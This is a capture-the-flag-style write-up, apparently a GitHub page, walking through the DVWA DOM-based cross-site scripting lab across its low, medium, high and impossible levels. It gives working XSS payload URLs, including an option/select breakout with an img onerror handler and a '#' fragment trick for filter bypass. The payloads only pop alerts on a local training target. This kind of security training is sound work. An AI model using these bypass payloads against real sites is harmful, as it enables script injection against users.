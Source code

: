 # DVWA - DOM Based Cross Site Scripting


## Low level
> In this level, we can see the source code, it doesn't do any protection. So there has the XSS vulnerabilities.
> 
> ![](https://i.imgur.com/Ouzgh6E.png)

> Let use the following script command to attack.
> As we can see the URL, we cna know the URL structure. Therefore, we can input anything we want to input after the URL.
> 
> ![](https://i.imgur.com/KsQBmfX.png)

> Then we input the following script command after the URL.
```
http://192.168.1.66/DVWA-master/vulnerabilities/xss_d/?default=%3Cscript%3Ealert(%27hack%27)%3C/script%3E
```
> ![](https://i.imgur.com/HxAFzeo.png)

## Medium level
> In this level we can know the web filter the `<script>`.
> 
> ![](https://i.imgur.com/rpEXrmw.png)

> So we need to use some way to bypass.
> Now we see the source code of the page.
> 
> ![](https://i.imgur.com/gRHlTnX.png)

> As we can see if we input the following URL.
```
http://192.168.1.66/DVWA-master/vulnerabilities/xss_d/?default=default=English</option></select><img src=1 onerror=alert(/xss/)>
```
> Then the page will be bypass the `<option>` and `<select>`. And we use the onerror feature of the `<img` we can attack the web.
```javascript
<option value=''> English</option></select><img src=1 onerror=alert(/xss/)></option>
```
![](https://i.imgur.com/B8qlrgM.png)

> Or we can use another way to attack.
> We can use "#" to bypass. Beacuse it will be look like command in js. So we can input the following URL to attack.
> 
```
http://192.168.1.66/DVWA-master/vulnerabilities/xss_d/?default=English#<script>alert('xss')</script>
```
## High level
> In this level we can check the source code to know. We just can use the text it list.
> 
> ![](https://i.imgur.com/EjSrBxT.png)

> So, we also use the same way to bypass. The text after "#" is looked comment.
> Using the following URL to attack the web.
```
http://192.168.1.66/DVWA-master/vulnerabilities/xss_d/?default=English#<script>alert('xss')</script>
```
![](https://i.imgur.com/QEmChZ2.png)


## Impossible level
> We can see the source code of the page, protction handled on the client side.
> The variable "lang" will encode the input, so it can't be attack.
> 
> ![](https://i.imgur.com/ep4lheF.png)

